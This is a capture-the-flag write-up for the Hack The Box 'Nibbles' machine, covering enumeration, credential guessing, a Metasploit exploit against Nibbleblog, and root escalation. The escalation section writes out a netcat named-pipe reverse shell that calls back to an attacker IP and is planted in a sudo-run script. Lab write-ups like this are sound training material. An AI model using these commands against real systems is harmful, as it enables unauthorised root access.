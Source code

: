 ```yaml
---
title: "Nibbles — Hack The Box [Write-up]"
author: 0x3ashry
description: "Writeup for Nibbles Hackthebox Machine"
date: 2021-01-24 11:00:00 +0200
categories: [HackTheBox]
tags: [HTB, Linux]
---
```


![](/img/HTB/Nibbles/Nibbles.png)

Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most.

#### Used Tools:
- Nmap
- Gobuster
- Searchsploit
- Metasploit
- Unzip

## 1. SCANNING & ENUMERATION

I will start with nmap and the -A parameter to enable OS detection, version detection, script scanning, and traceroute and append the output to tee command which save the in a file named “nmap” and also show the output on the screen.

![](/img/HTB/Nibbles/img (1).png)

As seen there are 2 open ports, Port 20 for an SSH service and Port 80 for HTTP service, Let’s check the HTTP first…

![](/img/HTB/Nibbles/img (2).png)

This looks empty… Let’s check the page source

![](/img/HTB/Nibbles/img (3).png)

Simply it contain the header for the hello world title and a comment down inform us to go to `/nibbleblog/` as there is nothing here in this page, and here we go

![](/img/HTB/Nibbles/img (4).png)

After a lot of navigating through the website I found nothing every thing returns me to this home page.

So I google about nibbleblog and fount it is a powerful engine for creating blogs using PHP.

Let’s enumerate the directories using **gobuster**:

![](/img/HTB/Nibbles/img (5).png)

Of course the enumeration of the previous `http://10.10.10.75/` gives nothing important, but as expected the `http://10.10.10.75/nibbleblog/` gives us some promising directories as nibbleblog/admin.php and nibbleblog/README, so let’s check the README page…

![](/img/HTB/Nibbles/img (6).png)

It contain a description for the site and some installation guide which we won’t use bit it gaves us its version. Let’s check the nibbleblog/admin.php

![](/img/HTB/Nibbles/img (7).png)

After a quick google didn’t bring up a set of default credentials, I tried alot of default password with the username admin but it ended up being blacklisted by the application…

After waiting around a minute we’re taken off the blacklist and can access the login page once again. The general rule of thumb here is to think like a lazy sysadmin. After a few attempts I ended up finding the credentials `admin:nibbles`.


## 2. EXPLOITATION:

During i was stuck in the admin panel i searched for the Nibbleblog in the `searchsploit` for a public exploit:

![](/img/HTB/Nibbles/img (8).png)

I found an exploit `(38489)` with the exact version of our targeted nibbleblog as seen in the README file and the more interesting that it is supported by metasploit, The exploit: Nibbleblog contains a flaw that allows an authenticated remote attacker to execute arbitrary PHP code.

so let’s open **metasploit** and use it:

![](/img/HTB/Nibbles/img (9).png)

The exploit require a username and a password in it’s options so then i figured that we must have a username and password so i returned to the admin panel but now we have them so we will set the options and exploit it.

![](/img/HTB/Nibbles/img (10).png)

And the exploit succeeded, Now we have a **meterpreter** session

![](/img/HTB/Nibbles/img (11).png)

So let’s go to the / directory and then to the home directory where we will find a user file called nibbler, go through it we will find user.txt

BOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOM !!! Now we had a user flag :D


## 3. PRIVILEGE ESCALATION:

There are a lot of commands that couldn’t be done using the meterpreter shell so we can escape this by typing “shell” in the meterpreter shell… and then upgrade our shell using

```bash
python3 -c ‘import pty;pty.spawn(“/bin/bash”)’
```

Now let’s list the user’s privileges using:

```bash
sudo -l
```

![](/img/HTB/Nibbles/img (12).png)

Here we go, our user (nibbler) can execute the bash script `monitor.sh with root privileges`, let’s check it…

Monitor.sh is in personal but it is zipped in the nibbler directory so we have to unzip it with the unzip tool

```bash
unzip personal.zip
```

![](/img/HTB/Nibbles/img (13).png)

Now we have 2 options:

- We **append** a reverse shell in the bash script so when it is executed as root the reverse shell will connect us as root
- We **overwrite** the monitor.sh file with the reverse shell

I will use the second one as it’s faster and easier...

```bash
echo ‘rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.130 1234 >/tmp/f’ > monitor.sh
```

You’ll find this reverse shell payload on PayloadsAllTheThings then create a listener in other tab on the port 1234 then execute it as root using:
PayloadsAllTheThings: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```bash
sudo -u root ./monitor.sh
```
![](/img/HTB/Nibbles/img (14).png)

BOOOOOOOOOOOOOOOOOOOOM!!!!! Now we are root :D


Thank you so much for reading and I hope you learned a lot as I did ❤

#### ***0x3ashry***